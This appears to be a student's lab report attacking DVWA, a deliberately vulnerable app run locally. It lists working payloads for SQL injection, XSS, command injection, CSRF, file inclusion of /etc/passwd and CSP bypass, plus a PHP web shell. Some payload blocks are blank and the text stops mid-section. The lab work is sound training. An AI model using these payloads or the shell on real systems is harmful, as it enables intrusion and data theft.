# DVWA Security Lab Report

## Application Security Testing Lab

---

# 1. Environment Setup

## 1.1 Install Docker

Verify installation:

```bash
docker --version
```

Output:

```bash
Docker version 29.2.1
```

---

# 2. Deploy DVWA in Docker

## Pull DVWA Image

```bash
docker pull vulnerables/web-dvwa
```

## Run DVWA Container

```bash
docker run -d \
--name dvwa \
-p 8080:80 \
vulnerables/web-dvwa
```

## Verify Container

```bash
docker ps
```

Output:

```bash
CONTAINER ID   IMAGE                  COMMAND      CREATED         STATUS         PORTS                                     NAMES
94f3c45d157b   vulnerables/web-dvwa   "/main.sh"   3 minutes ago   Up 3 minutes   0.0.0.0:8080->80/tcp, [::]:8080->80/tcp   dvwa
```

---

Open in browser:

```
http://localhost:8080
```
---

# 3. Vulnerability Testing

Security levels tested:

* Low
* Medium
* High

---

# 3.1 SQL Injection

## Security Level: Low

Payload Used:

```
1' OR '1'='1
```

Result:

All user records were displayed.

Screenshot:


Explanation:

At the Low security level, user input is directly inserted into the SQL query without input validation or sanitization. The payload modifies the SQL query logic so the condition always evaluates to true.

Query:

```sql
SELECT * FROM users WHERE id='1' OR '1'='1';
```

This causes the database to return all records.

---

## Security Level: Medium

Payload Used:

```
1 or 2 or 3 or 4 or 5 (numbers were in a drop down))
```

Result:

User records were still displayed.

Screenshot:



Explanation:

At the Medium security level, DVWA uses mysql_real_escape_string() to escape quotes. However, the input is still used directly in the SQL query without parameterized queries. Since the input is numeric and not enclosed in quotes, SQL logic manipulation is still possible.

---

## Security Level: High

Payload Used:

```
a' UNION SELECT "test1","test2";-- -
```

Result:

Custom values appeared in the result.

Screenshot:


Explanation:

The High security level introduces additional checks such as session validation. However, the SQL query is still constructed dynamically and does not use prepared statements. This allows attackers to use UNION-based SQL injection to modify the query result and inject custom values.

---

# 3.2 Reflected XSS

## Security Level: Low

Payload Used:

```
<script>alert('XSS')</script>
```

Result:

A JavaScript alert popup appeared.

Screenshot:



Explanation:

At the Low security level, user input is reflected directly in the web page without sanitization. Because the input is inserted into the HTML output, the browser interprets it as executable JavaScript.

---

## Security Level: Medium

Payload Used:

```
<ScRiPt>alert("XSS")</ScRiPt>
```

Result:

Alert popup appeared.

Screenshot:



Explanation:

The Medium level attempts to filter `<script>` tags, but the filter is case-sensitive. By changing the letter casing of the tag, the attacker bypasses the filter and executes JavaScript.

---

## Security Level: High

Payload Used:

```

```

Result:

Alert popup appeared.

Screenshot:



Explanation:

The filter removes `<script>` tags but does not sanitize HTML event attributes such as `onerror`. By injecting an image element with an event handler, JavaScript execution is triggered when the image fails to load.

---

# 3.3 Stored XSS

## Security Level: Low

Payload Used:

Name:

```
Muskan
```

Message:

```
<script>alert('Stored XSS')</script>
```

Result:

The alert appeared every time the page reloaded.

Screenshot:


Explanation:

The application stores user input directly in the database without sanitization. When the page loads, the stored script executes automatically.

---

## Security Level: Medium

Payload Used:

```
<sCriPt>alert("XSS");</sCriPt>
```

Result:

Alert appeared.

Screenshot:



Explanation:

At the Medium level, DVWA attempts to sanitize the message field but does not fully sanitize all inputs. Attackers can bypass the filter by altering the casing of the script tag or injecting JavaScript through fields that are not properly validated.


---

## Security Level: High

Payload Used:

```

```

Result:
The payload executed JavaScript.

Screenshot:



Explanation:

It worked because the application only tried to block <script> tags but did not filter HTML event attributes like onerror or onload. When the page loaded, the browser executed the JavaScript inside the event handler. Since the input was stored in the database, the malicious code ran every time the page was viewed.

---

# 3.4 Command Injection

## Security Level: Low

Payload Used:

```
127.0.0.1 && dir
```

Result:

The directory listing was displayed after the ping command executed.

Screenshot:


Explanation:

The application executes system commands directly using user input. By appending `&&`, attackers can run additional commands after the original command completes.

---

## Security Level: Medium

Payload Used:

```
127.0.0.1 & dir
```

Result:

The ping command ran in the background and the directory listing was displayed.

Screenshot:


Explanation:

Some command operators are filtered, but the background operator `&` is not blocked. This allows attackers to execute additional commands.

---

## Security Level: High

Payload Used:

```
127.0.0.1|dir
```

Result:

Both ping output and directory listing were displayed.

Screenshot:


Explanation:

At the High security level, the application attempts to filter dangerous characters using pattern matching. However, the filter does not account for all command chaining operators. By using the pipe operator (|), attackers can still execute additional commands.


---

# 3.5 Blind SQL Injection

## Security Level: Low

Payload Used:

```
1' AND 1=1#
```

Result:

The message **"User ID exists in the database"** appeared.

Screenshot:



Explanation:

At the Low level, user input is directly inserted into the SQL query without validation. Logical conditions such as `AND 1=1` allow attackers to manipulate the query and confirm vulnerabilities.

---

## Security Level: Medium

Payload Used:

```
1
```

Result:

User ID exists in the database.

Screenshot:



Explanation:

The Medium level uses `mysql_real_escape_string()` but does not enclose the parameter in quotes. Because the value is numeric, escaping does not protect the query from manipulation.

---

## Security Level: High

Payload Used:

```
1' AND SLEEP(5)#
```

Result:

The webpage response was delayed by approximately 5 seconds.

Screenshot:


Explanation:

Although database errors are hidden, injected SQL commands are still executed. Using the `SLEEP()` function creates a delay, allowing attackers to confirm the vulnerability through timing differences.

---

# 3.6 JavaScript Attacks

## Security Level: Low

Payload Used:

```
success + generate_token()
```

Result:

Token updated and validation succeeded.

Screenshot:


Explanation:

Token generation is implemented entirely in client-side JavaScript. By analyzing and manually executing the token function in the browser console, attackers can bypass validation.

---

## Security Level: Medium

Payload Used:

```
do_elsesomething("XX")
```

Result:

Token regenerated successfully.

Screenshot:



Explanation:

Token generation still occurs in client-side JavaScript. Attackers can execute the required functions manually in the console to generate valid tokens.

---

## Security Level: High

Payload Used:

```
In Console:
document.getElementById("phrase").value="success";
document.getElementById("token").value=sha256(sha256("XXsseccus")+"ZZ");
document.forms[0].submit();
```

Result:

Token regenerated successfully.

Screenshot:



Explanation:

There is an attempt to increase security using an obfuscated script called high.js, which generates a token through three separate functions and includes additional conditions such as timing checks to make the process more complex. However, by understanding how the functions worked, we can manually recreate the token by following the same logic used in the script and successfully bypass the intended protection.

---

# 3.7 Brute Force

## Security Level: Low

Payload Used:

```
admin : password
```

Result:

Login successful.

Screenshot:


Explanation:

There are no protections such as rate limiting, CAPTCHA, or account lockout. Attackers can attempt unlimited login combinations.

---

## Security Level: Medium

Payload Used:

```
admin : password
```

Result:

Login successful.

Screenshot:


Explanation:

A delay is introduced after failed login attempts. This slows brute force attacks but does not prevent them.

---

## Security Level: High

Payload Used:

```
admin : password
```

Result:

Authentication successful.

Screenshot:



Explanation:

Additional protections such as CSRF tokens are implemented. However, weak credentials still allow attackers to gain access once discovered.

---
# 3.8 CSRF (Cross-Site Request Forgery)

## Security Level: Low

Payload Used:

```html
<html>
<body onload="document.forms[0].submit()">

<form action="http://localhost:8080/vulnerabilities/csrf/" method="GET">
<input type="hidden" name="password_new" value="hacked">
<input type="hidden" name="password_conf" value="hacked">
<input type="hidden" name="Change" value="Change">
</form>

</body>
</html>
```

Result:

The attack worked successfully and the password was changed.

Screenshot:



Explanation:

At the Low security level, DVWA does not check where the request is coming from. Because of this, the malicious HTML page was able to send a request to the server and change the password while the user was logged in. Since there is no validation, the server accepts the request and performs the action.

---

## Security Level: Medium

Payload Used:

The same payload used in the Low security level was tested again.

Result:

The attack initially failed when the HTML file was opened locally. After hosting the file using a local web server, the request worked because the referer appeared to come from localhost.

Screenshot:



Explanation:

At the Medium security level, DVWA checks the HTTP Referer header. This means the application tries to verify that the request is coming from the same website. When the attack page was opened locally, the referer header was missing so the request failed. When the malicious page was hosted on a local server, the referer contained localhost, which allowed the request to bypass the check. This shows that using only the referer header is weak protection.

---

## Security Level: High

Payload Used:

The same payload was tested again but without including a valid CSRF token as it changes every session and is generated dynamically.

Result:

The attack failed and the password was not changed.

Screenshot:



Explanation:

At the High security level, DVWA uses a CSRF token called user_token. This token is generated by the server and must be included in the request. Since the malicious request did not contain the correct token, the server rejected the request and the attack failed.

---

# 3.9 File Upload

File upload vulnerabilities occur when a web application allows users to upload files without properly validating them.

## Security Level: Low

Payload Used:

```
shell.php
```

Content of the uploaded file:

```php
<?php
echo "File upload successful";
system($_GET['cmd']);
?>
```

Result:

The file uploaded successfully and the PHP code executed when the file was opened in the browser.

Screenshot:



Explanation:

At the Low security level, the application does not check the file type or extension. Because of this, a malicious PHP file can be uploaded directly. When the uploaded file is accessed through the browser, the PHP code runs on the server.

---

## Security Level: Medium

Payload Used:

```
shell.php.jpg
```

Result:

The file was successfully uploaded even though it contained PHP code.

Screenshot:



Explanation:

At the Medium security level, the application tries to restrict uploads by checking the file extension. However, this protection is weak. By using a double extension such as .php.jpg, the application thinks the file is an image and allows the upload.

---

## Security Level: High

Payload Used:

```
shell.php
shell.php.jpg
shell.php5
shell.phtml
```

Result:

The upload was blocked and the malicious file could not be uploaded.

Screenshot:



Explanation:

At the High security level, stronger validation is applied. The application checks the file type and verifies whether the uploaded file is a real image. Because the uploaded file contained PHP code instead of image data, the server rejected it.

---

# 3.10 Weak Session IDs

Weak Session IDs occur when a web application generates session identifiers that are predictable.

## Security Level: Low

Payload Used:

Generated session IDs using DVWA’s Generate button and observed session values from browser cookies.

Result:

The session IDs were sequential integers:

```
1, 2, 3, 4, 5
```

This allows an attacker to easily predict the next session ID and hijack a session.

Screenshot:



Explanation:

At Low security, DVWA generates session IDs as incrementing integers, making them fully predictable. An attacker can guess the next ID and hijack a session.

---

## Security Level: Medium

Payload Used:

Generated session IDs at Medium level and observed cookies.

Result:

The session IDs were based on Unix timestamps:

```
1699443834
1699443835
1699443836
```

These could be guessed if the attacker knew approximately when the session was created.

Screenshot:



Explanation:

At Medium security, DVWA uses timestamps to generate session IDs. While less predictable than sequential integers, an attacker can still estimate session IDs based on the current time.

---

## Security Level: High

Payload Used:

Generated session IDs at High level and observed cookies.

Result:

The session IDs were long random hash values:

```
7c4a8d09ca3762af61e59520943dc264
```

Screenshot:



Explanation:

At High security, session IDs are generated using MD5 hashes based on random values. While this improves unpredictability compared to sequential IDs, MD5 is not considered cryptographically secure for modern session management.

---

# 3.11 DOM Based Cross-Site Scripting (DOM XSS)

## Security Level: Low

Payload Used:

```
<script>alert('XSS')</script>
```

Result:

An alert popup appeared in the browser.

Screenshot:



Explanation:

At the Low security level, the application directly inserts user input into the page using JavaScript without sanitization, allowing script execution.

---

## Security Level: Medium

Payload Used:

```

```

Result:

The alert popup appeared.

Screenshot:



Explanation:

The application blocks script tags but does not remove HTML event attributes such as onerror, which allows JavaScript execution.

---

## Security Level: High

Payload Used:

```

```

Result:

The alert popup still appeared.

Screenshot:



Explanation:

The application uses blacklist filtering that blocks certain tags but not event handlers like onerror, allowing the payload to bypass the filter.

---

# 3.12 Content Security Policy (CSP) Bypass

## Security Level: Low

Payload Used:

```
http://127.0.0.1:8000/evil.js
```

Content of evil.js:

```javascript
alert("CSP Bypass Successful");
```

Result:

The alert popup appeared in the browser.

Screenshot:



Explanation:

The CSP configuration does not properly restrict script sources, allowing external malicious scripts to execute.

---

## Security Level: Medium

Payload Used:

```
http://127.0.0.1:8000/evil.js
```

Result:

The alert popup appeared again when the script was loaded.

Screenshot:



Explanation:

Scripts from localhost are allowed, enabling the malicious script hosted on the local machine to bypass the policy.

---

## Security Level: High

Payload Used:

```
http://localhost:8080/vulnerabilities/csp/source/jsonp.php?callback=alert
```

Result:

The alert appeared in the browser.

Screenshot:



Explanation:

The CSP policy restricts scripts to the same origin. However, a JSONP endpoint allows a callback parameter that returns executable JavaScript, bypassing the protection.

---

# 3.13 File Inclusion

## Security Level: Low

Payload Used:

```
http://localhost:8080/vulnerabilities/fi/?page=file4.php
```

Result:

The application successfully loaded file4.php.

Screenshot:



Explanation:

DVWA directly loads the file specified in the page parameter without validating the file name, allowing attackers to access unintended files.

---

## Security Level: Medium

Payload Used:

```
http://localhost:8080/vulnerabilities/fi/?page=//etc/passwd
```

Result:

The contents of the /etc/passwd file were displayed.

Screenshot:



Explanation:

The application attempts to block directory traversal patterns but does not account for alternative path formats, allowing access to system files.

---

## Security Level: High

Payload Used:

```
http://localhost:8080/vulnerabilities/fi/?page=file:////etc/passwd
```

Result:

The application displayed the contents of the /etc/passwd file.

Screenshot:

